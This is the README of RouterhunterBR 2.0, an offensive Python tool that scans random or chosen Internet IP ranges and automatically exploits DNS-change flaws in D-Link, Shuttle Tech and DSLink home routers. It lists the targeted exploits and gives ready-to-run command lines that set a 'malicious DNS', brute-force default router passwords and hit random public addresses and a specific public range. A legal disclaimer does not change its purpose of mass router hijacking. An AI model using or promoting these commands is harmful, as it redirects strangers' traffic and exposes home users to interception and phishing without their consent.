 # Scanner Routerhunter 2.0
 Tool used to find vulnerable routers and devices on the Internet and perform tests

```
	          _	          _           _		   		   
  ___ ___ _ _| |_ ___ ___| |_ _ _ ___| |_ ___ ___ 
 |  _| . | | |  _| -_|  _|   | | |   |  _| -_|  _|
 |_| |___|___|_| |___|_| |_|_|___|_|_|_| |___|_|
				       BR - v2.0

 Tool used to find vulnerable routers and devices on the Internet and perform tests.

[ Coded by Jhonathan Davi a.k.a jh00nbr - jhoonbr at protonmail.ch ]
[ fb.com/JhonVipNet - twitter.com/jh00nbr - github.com/jh00nbr/ - blog.inurl.com.br - www.youtube.com/c/Mrsinisterboy ]


[!] legal disclaimer: Usage of RouterHunterBR for attacking targets without prior mutual 
consent is illegal. It is the end user's responsibility to obey all applicable local, state and 
federal laws.Developers assume no liability and are not responsible for any misuse or damage caused
by this program.  
```


 * AUTOR: Jhonathan Davi A.K.A jh00nbr
 * EMAIL*: jhoonbr@protonmail.ch
 * Blog: http://blog.inurl.com.br
 * Twitter: https://twitter.com/jh00nbr
 * Facebook: https://fb.com/JhonVipNet
 * Fanpage: https://fb.com/InurlBrasil
 * Github: https://github.com/jh00nbr/
 * Youtube: https://www.youtube.com/c/Mrsinisterboy

### https://jh00nsec.wordpress.com/2016/01/22/routerhunterbr-2-0-testing-vulnerabilities-in-devices-and-routers-connected-to-the-internet-dnschanger/

### Description
------
  The RouterhunterBR is an automated security tool that finds vulnerabilities and performs tests on routers and vulnerable devices on the Internet. The RouterhunterBR was designed to run over the Internet looking for defined ips tracks or random in order to automatically exploit the vulnerability DNSChanger on home routers.
  
  The script explores four vulnerabilities in routers
  
 * Shuttle Tech ADSL Modem-Router 915 WM / Unauthenticated Remote DNS Change Exploit            
  reference: http://www.exploit-db.com/exploits/35995/

 * D-Link DSL-2740R / Unauthenticated Remote DNS Change Exploit           
  reference: http://www.exploit-db.com/exploits/35917/

 * D-Link DSL-2640B Unauthenticated Remote DNS Change Exploit            
   reference: http://1337day.com/exploit/23302/ 
 * D-Link DSL-2780B DLink_1.01.14 - Unauthenticated Remote DNS Change           
   reference: https://www.exploit-db.com/exploits/37237/ 

 * D-Link DSL-2730B AU_2.01 - Authentication Bypass DNS Change            
   reference: https://www.exploit-db.com/exploits/37240/ 
 * D-Link DSL-526B ADSL2+ AU_2.01 - Unauthenticated Remote DNS Change           
   reference: https://www.exploit-db.com/exploits/37241/ 

 * DSLink 260E - Authenticated routers - DNS Changer - Bruteforce 
   reference: https://www.youtube.com/watch?v=tNjy91g2Rak                             
   http://blog.inurl.com.br/2015/03/dslink-260e-defaut-passwords-dns-change_17.html 

### Requeriments
```
import sys, os, argparse, itertools, requests, random, time, threading, base64, socket
from datetime import datetime
```

### Usage

```
  -range 192.168.1.0-255, --range 192.168.1.0-255  Set range of IP
  -bruteforce, --bruteforce                        Performs brute force with users and passwords standards, and soon    after defines the malicious DNS.
  -startip 192.168.*.*, --startip 192.168.*.*      Start - IP range customized with wildcard / 201.*.*.*
  -endip 192.168.*.*, --endip 192.168.*.*          End - IP range customized with wildcard / 201.*.*.*
  -dns1 8.8.8.8, --dns1 8.8.8.8                    Define malicious dns1
  -dns2 8.8.4.4, --dns2 8.8.4.4                    Define malicious dns2
  --threads 10                                     Set threads numbers
  -rip, --randomip                                 Randomizing ips routers
  -lmtip 10, --limitip 10                          Define limite random ip
```

### Commands

```
Random ips
python routerhunter.py --dns1 8.8.8.8 --dns2 8.8.4.8 --randomip --limitip 10 --threads 10                      
python routerhunter.py --dns1 8.8.8.8 --dns2 8.8.4.8 -rip -lmtip 10 --threads 10

```


```
Scanner in range ip:
python routerhunter.py --dns1 8.8.8.8 --dns2 8.8.4.8 --range 192.168.25.0-255 --threads 10

```

```
IP range customized with wildcard / Ex: --startip 201.*.*.* -  --endip 201.*.*.*
python routerhunter.py --dns1 8.8.8.8 --dns2 8.8.4.8 --startip 192.168.*.* --endip 192.168.*.* --threads 10
```
```
Brute force with users and passwords on routers that requires authentication, forcing alteration of dns - DSLink 260E.
python routerhunter.py --dns1 8.8.8.8 --dns2 8.8.4.4 --range 177.106.19.65-70 --bruteforce --threads 10
```

### Screenshots 
![rip](http://i.imgur.com/CAhvz1T.png)
![range](http://i.imgur.com/sA1IKTp.png)
![brute](http://i.imgur.com/IhtaZhw.png)
